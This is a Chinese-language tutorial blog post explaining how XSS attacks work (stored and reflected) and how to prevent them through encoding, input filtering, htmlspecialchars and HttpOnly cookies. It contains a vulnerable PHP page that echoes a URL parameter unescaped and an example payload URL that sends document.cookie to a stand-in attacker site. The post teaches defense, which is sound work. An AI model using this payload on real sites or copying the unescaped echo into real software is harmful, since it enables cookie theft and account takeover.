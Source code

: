 ```yaml
---
title: XSS 攻击原理
date: 2017-04-05 14:12:50
tags: problem
---
```


XSS ：跨站脚本攻击（Cross Site Scripting）。为了区别于层叠样式表（Cascading Style Sheet）的缩写 CSS，一般将其缩写为 XSS。XSS 针对一种 web 安全漏洞，该漏洞允许攻击者将恶意脚本注入到用户接收到的网页中，以完成某种不利于用户的操作。

<!-- more -->

简单地说，攻击者可以利用 XSS 漏洞向用户发送攻击脚本，因为用户的浏览器并不知道这段脚本是恶意的，所以依然会执行它。这段恶意脚本可以像正常脚本一样访问 cookie、读取保存在浏览器里的敏感信息，甚至还可以改写页面，进行钓鱼攻击。

下面两个例子，会让我们对 XSS 有个直观的认识。

**场景一：**

攻击者在某网站评论页面，提交了一段可执行的 JavaScript 脚本（这里假设为“恶意脚本”），若服务器端接收到这段脚本后，没有进行过滤或者转义这段脚本，而是将其作为普通的内容发布到了用户评论区，那么，后续用户访问到这个页面后，就会执行这段注入的“恶意脚本”。

**场景二：**

网站 www.a.com 会根据 url 后参数 content 来呈现不同的内容，我们假设页面 index.php 代码如下：

```
<!DOCTYPE html>
<html>
<body>
<h1>接收的内容：</h1>

<?php
    echo $_GET['content'];
?>

</body>
</html>
```

当我们访问地址 http://www.a.com/index.php?content=test 时，页面输出内容就是 test。这样好像并没有什么问题，但是，如果攻击者将访问地址修改为 http://www.a.com/index.php?content=&lt;script&gt;window.open("www.b.com?param="+document.cookie)&lt;/script&gt;， 那么，问题就来了。当某人打开这个地址后，除了打开 www.a.com ，还会弹出一个新的窗口 www.b.com（攻击者的站点），并且带上他保存在本地的 cookie，这些 cookie 很可能包含了他的用户名、密码等私密信息，而这些信息都会被攻击者获取。

（当然了，安装上面步骤操作一遍，我们不一定能看到上面所说的现象，那是因为有些浏览器会自带一些保护性措施来防止这种 XSS 攻击）

XSS 攻击大体分为以上两类：

**① 存储式攻击**
主要出现在让用户输入数据，然后存入数据库的场景，比如留言、评论、博客日志和各类表单等。攻击者在这类页面输入恶意脚本后，若未经过滤直接入库，应用程序从数据库中读取这些“恶意脚本数据”，并在页面中发布出来，后续用户浏览此页面时就可能受到攻击。

**② 反射型攻击**
攻击者将恶意脚本代码加入 url 地址的请求参数里，应用程序接收到请求参数后，将参数直接输入，就可能引入可执行的代码块。用户点击类似的恶意链接就可能执行此代码块，受到攻击。

**归根结底，以上两类情况都是没有对用户提交的数据（参数）做过滤检查。所以，开发者应该有一个共识：永远不要相信用户的输入！对用户的输入进行过滤和审核是一个必要的环节！**

所以，依据以上分析：**预防 XSS 攻击的核心就是在输出不可信数据的时候进行编码，过滤特殊字符。**

```
<     ->  &lt;    
>     ->  &gt;
&     ->  &amp;
"     ->  &quot; 
"     ->  &#x27;
空格  ->  &nbsp;  
/     ->  &#x2f;  
```

以上编码转换能够防御一部分 XSS 攻击。实际生产过程中，具体问题还是应该具体分析。

总结一下，对于 XSS 攻击，我们可以做如下防范：

(1) 输入过滤。不要相信用户的输入，对用户输入的数据进行过滤。如用户输入的日期、手机号、用户名等是否格式正确，是否包含 script 等敏感关键词。

(2) 输出编码。服务器端输出到浏览器的数据，可以使用系统的安全函数来进行编码或转义。如 PHP 中的 htmlentities() 和 htmlspecialchars() 函数。

(3) 安全编码。开发需尽量避免在客户端进行文档重写、重定向或其他敏感操作，同时要避免使用客户端数据，这些操作需尽量在服务器端使用动态页面来实现。

(4) HttpOnly Cookie。Web应用程序在设置 cookie 时，将其属性设为 HttpOnly，这样可以避免该网页的 cookie 被客户端恶意 JavaScript 窃取。



参考：
[1] https://github.com/astaxie/build-web-application-with-golang/blob/master/zh/09.3.md
[2] http://blog.csdn.net/ghsau/article/details/17027893
[3] http://www.freebuf.com/articles/web/9977.html
[4] http://wetest.qq.com/lab/view/136.html